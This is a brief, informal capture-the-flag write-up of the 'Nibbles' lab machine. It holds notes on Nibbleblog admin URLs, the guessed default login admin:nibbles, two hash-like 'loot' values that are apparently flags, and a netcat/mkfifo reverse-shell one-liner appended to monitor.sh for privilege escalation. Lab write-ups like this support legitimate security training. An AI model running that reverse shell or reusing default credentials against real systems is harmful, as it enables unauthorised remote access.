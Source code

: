 # Nibbles \[Easy]

How did i lose my shit while doing this lol I focused on atom cms so much I didnt even bother looking up nibbleblog.

```
FAILED TO PERFORM FULL DIRECTORY FUZZING AGAIN - COULDNT FIND VERSION AS A RESULT BIG FAILURE
```

admin:nibbles is also crazy work but maybe thats the defaut creds and ill never cus my sorry ass never got to looking it up in the first place.

## Cheatsheet

```
<!-- /nibbleblog/ directory. Nothing interesting here! -->
http://10.10.10.134/nibbleblog/feed.php

var HTML_PATH_ROOT = "/nibbleblog/";var HTML_PATH_ADMIN = "/nibbleblog/admin/";var HTML_PATH_ADMIN_AJAX = "/nibbleblog/admin/ajax/";var HTML_PATH_ADMIN_JS = "/nibbleblog/admin/js/";var HTML_PATH_ADMIN_TEMPLATES = "/nibbleblog/admin/templates/";var _MAX_FILE_SIZE = 1024 * 3000;

http://10.10.10.75/nibbleblog/admin.php?controller=post&action=new_simple

http://10.10.10.75/nibbleblog/index.php?page=users&id=1
one part of exploit
Nibbleblog security error - Blacklist protection

http://10.10.10.75/nibbleblog/README

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.17 9001 >/tmp/f" >> monitor.sh
```

## Loot

### Creds

admin:nibbles \[Guesswork]

```
062f706ac607ff314a3bc31e28b79394
255948160a9e032e28ada9cec73caa36
```
